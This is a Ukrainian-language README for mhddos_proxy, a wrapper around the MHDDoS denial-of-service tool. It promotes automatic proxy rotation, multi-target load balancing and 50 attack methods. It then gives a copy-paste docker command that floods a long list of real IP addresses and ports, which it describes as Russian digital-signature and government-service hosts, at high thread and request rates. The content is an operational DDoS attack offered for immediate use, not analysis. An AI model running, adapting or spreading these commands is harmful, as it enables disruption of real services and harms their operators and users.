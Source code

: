 
## mhddos_proxy
[mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy)
Скрипт-обгортка для запуску потужного DDoS інструмента [MHDDoS](https://github.com/MHProDev/MHDDoS).

### Особливості
-   **Не потребує VPN** - автоматично скачує і підбирає робочі проксі для заданих цілей, періодично їх оновлюючи
-   Атака **декількох цілей** з автоматичним балансуванням навантаження
-   Використовує **50  рiзних методiв для атаки** і змінює їх в процесі роботи
-   Простий та зрозумілий інтерфейс з іменованими параметрами

#### Приклад запуску атаки на адреси для цифрових підписів і госусулуг в РФ через докер.
```bash
docker run -it --rm ghcr.io/porthole-ascend-cinnamon/mhddos_proxy:latest  tcp://213.59.254.8:443 tcp://213.59.254.8:80 tcp://109.207.14.3:443 tcp://109.207.14.3:80 tcp://109.207.14.3:53 tcp://87.226.162.78:25 tcp://87.226.162.78:110 tcp://87.226.162.78:443 tcp://87.226.162.78:587 tcp://87.226.162.78:995 tcp://185.194.34.142:22 tcp://185.194.34.142:23 tcp://185.194.34.142:25 tcp://185.194.34.142:53 tcp://185.194.34.142:80 tcp://185.194.34.142:110 tcp://185.194.34.142:443 tcp://185.194.34.142:1433
tcp://213.59.197.65:80 tcp://213.59.197.65:443 tcp://185.71.67.237:22 tcp://185.71.67.237:23 tcp://185.71.67.237:25 tcp://185.71.67.237:53 tcp://185.71.67.237:80 tcp://185.71.67.237:110 tcp://185.71.67.237:443 tcp://185.71.67.237:1433 tcp://185.71.67.237:1521 tcp://185.71.67.237:3306 tcp://185.71.67.237:3389 tcp://82.151.111.186:22 tcp://82.151.111.186:80 tcp://82.151.111.186:110
tcp://82.151.111.186:143 tcp://82.151.111.186:443 tcp://82.151.111.187:25 tcp://82.151.111.187:80 tcp://82.151.111.187:110 tcp://82.151.111.187:443 tcp://91.239.5.18:25 tcp://91.239.5.18:80 tcp://91.239.5.18:110 tcp://91.239.5.18:143 tcp://91.239.5.18:443 tcp://91.239.5.18:465 tcp://91.239.5.18:993 tcp://91.239.5.75:80 tcp://91.239.5.75:443 tcp://91.239.5.75:7777 tcp://82.146.56.128:21 tcp://82.146.56.128:22 tcp://82.146.56.128:25 tcp://82.146.56.128:53 tcp://82.146.56.128:80 tcp://82.146.56.128:143 tcp://82.146.56.128:465 tcp://82.146.56.128:587 tcp://82.146.56.128:993 tcp://185.58.223.206:80 tcp://185.58.223.206:443 tcp://185.58.223.206:500 tcp://178.248.238.15:80 tcp://178.248.238.15:443
tcp://92.53.98.191:21 tcp://92.53.98.191 tcp://92.53.98.191:22 tcp://92.53.98.191:80 tcp://92.53.98.191:443 tcp://109.207.1.97:80 tcp://109.207.1.97:443 tcp://109.207.1.97:8443 tcp://37.230.115.34:22 tcp://37.230.115.34:80 tcp://37.230.115.34:123 tcp://37.230.115.34:443 tcp://37.230.115.34:1500 tcp://213.159.213.33:21 tcp://213.159.213.33:22 tcp://213.159.213.33:53 tcp://213.159.213.33:80 tcp://213.159.213.33:110 tcp://213.159.213.33:443 tcp://213.159.213.33:465 tcp://213.159.213.33:587 tcp://213.159.213.33:993 tcp://213.159.213.33:995 -t 1000 -p 300 --rpc 100 --http-methods TCP --debug
```